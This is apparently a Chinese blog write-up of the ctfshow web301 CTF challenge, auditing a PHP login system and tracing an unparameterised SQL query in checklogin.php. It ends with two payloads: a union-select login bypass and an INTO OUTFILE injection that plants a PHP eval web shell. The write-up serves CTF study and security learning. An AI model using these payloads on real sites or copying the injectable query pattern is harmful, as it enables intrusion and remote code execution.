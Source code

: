 ```yaml
---
title: "[代码审计]实战篇:web301"
desc: TonyD0g
date: 2022-01-29 22:54:20
tags: 代码审计
---
```

<font size=4 >

###### [版本0x2] 
###### 2022-01-30

## 前言:
(请多多支持ctfshow,侵删)
审计审计大菜鸡师傅四年前写的代码,正好也让我这个新手练练手.
源码下载:https://ctfshow.lanzoui.com/ilMPgjfeyxa

## 正文:
第一次代码审计,我选择从index.php上入手.

index.php用浏览器打开是这个样子的:
![avatar](https://s4.ax1x.com/2022/01/29/HpzTln.png)

很明显已经进入系统了,现在我们来看代码:
![avatar](https://s4.ax1x.com/2022/01/29/Hpz5Wj.png)

前面的PHP代码在黑盒测试中是不可见的，可见的是下面的HTML代码.

分析一下PHP代码:
```
<?php
session_start();
require "conn.php";
if(!isset($_SESSION['login'])){
header("location:login.php");
}
?>
```
好，我们这里遇到了conn.php文件,我们跟踪一下:
```
<?php

$mysqluser="root";
$mysqlpwd="*******";
$mysqldb="sds";
$mysqlhost="localhost";
$mysqlport="3306";
$mysqli=@new mysqli($mysqlhost,$mysqluser,$mysqlpwd,$mysqldb);
if(mysqli_connect_errno()){
	die(mysqli_connect_error());
}
?>
```

发现是个链接数据库的代码.

所以分析后得:
```
<?php
//开启session
session_start();

//包含conn.php文件,conn.php文件:启用数据库
require "conn.php";

//如果没有登录则重定向到login.php
if(!isset($_SESSION['login'])){
header("location:login.php");
}
?>
```

这里重定向到了login.php文件,跟踪一下:
![avatar](https://s4.ax1x.com/2022/01/29/HpzoSs.png)
login.php调用了checklogin.php,继续跟踪

分析后的结果:
```
<?php
//开启了报错信息，方便审计.(实际应用中不要开启)
error_reporting(0);
session_start();
require 'conn.php';
//一个简单的三元运算符,将用户输入的"userid"和"userpwd"传给各自对应的变量
$_POST['userid']=!empty($_POST['userid'])?$_POST['userid']:"";
$_POST['userpwd']=!empty($_POST['userpwd'])?$_POST['userpwd']:"";
$username=$_POST['userid'];
$userpwd=$_POST['userpwd'];

//SQL查询语句,这里是直接代入查询的，所以有SQL注入漏洞
//SQLMAP跑或者手工

$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
//判断该用户是否存在,不存在则重新登录
if($result->num_rows<1){
	$_SESSION['error']="1";
	header("location:login.php");
	return;
}
//判断密码是否符合,符合则跳转至主页
if(!strcasecmp($userpwd,$row['sds_password'])){
	$_SESSION['login']=1;
	$result->free();
	$mysqli->close();
	header("location:index.php");
	return;
}
//登录失败
$_SESSION['error']="1";
header("location:login.php");

?>
```

发现在checklogin.php中存在SQL注入:
```
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
```

Payload1:
userid=-1' union select 1%23&userpwd=1

Payload2:
userid=a ' union select "<?php eval($_POST[1]);?>" into outfile "/var/www/html/a.php"%23&userpwd=b

至此,代码审计结束
</font>